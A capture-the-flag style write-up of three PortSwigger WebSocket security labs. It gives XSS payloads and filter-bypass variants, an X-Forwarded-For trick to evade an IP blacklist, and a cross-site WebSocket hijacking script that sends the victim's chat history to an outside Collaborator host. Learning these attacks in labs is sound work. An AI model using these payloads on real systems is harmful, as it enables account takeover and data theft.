 ```yaml
---
description: https://portswigger.net/web-security/websockets
---
```


# Testing for WebSockets security vulnerabilities

### Lab: Manipulating WebSocket messages to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets. Chat messages that you submit are viewed by a support agent in real time.

`/chat` **-> Live chat**

```
→ To server
{"message":"test"}
← To client
{"user":"You","content":"test"}
```

There is just client side protection with html encoding.

Send the request to the repeater -> Reconnect -> Send this payload:

```
{"message":"<img src=1 onerror='alert(1)'>"}
```

### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets. It has an aggressive but flawed XSS filter.

`/chat` **-> Live chat**

```
→ To server
{"message":"<img onclick='alert(1)'>test</img>"}
← To client
{"error":"Attack detected: Event handler"}

→ To server
{"message":"<iframe src='javascript:alert(0)'>"}
← To client
{"error":"Attack detected: JavaScript"}

→ To server
{"message":"<iframe src='javascRipt:alert(0)'>"}
← To client
{"error":"Attack detected: Alert"}

→ To server
{"message":"<iframe src='javascRipt:%61lert(0)'>"}
a -> url encoded
```

To bypass being in blacklist, we can add this header to request header:&#x20;

`X-Forwarded-For: (any value)`

### Lab: Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

```
Request:
GET /chat HTTP/1.1
Host: acf21faf1e293867c0fd365700a700f3.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Upgrade: websocket
Origin: https://acf21faf1e293867c0fd365700a700f3.web-security-academy.net
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=0eUxfWHWU1z3UUKb9xAUqwNhI0jPJe5f
Sec-WebSocket-Key: kLHi+hZ7ECII+qRH3585hQ==

Response:
HTTP/1.1 101 Switching Protocol
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: GQ79sfJLT+ljrMNywxhuWRsOD8Q=
Content-Length: 0

<form id="chatForm" action="wss://acf21faf1e293867c0fd365700a700f3.web-security-academy.net/chat">
```

There is no csrf protection in websocket handshake.

**Exploit Server ->**

```
Body:

  <script>
    var ws = new WebSocket('wss://acf21faf1e293867c0fd365700a700f3.web-security-academy.net/chat');
    ws.onopen = function() {
      ws.send("READY");
    };
    ws.onmessage = function(event) {
      fetch('https://gtdks02v6yt40r756at6r1o59wfm3b.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
  </script>
```

```
Collaborator:

{"user":"Hal Pline","content":"No problem carlos, it's dqpl6qi78qaekjz7wh6d"}
```
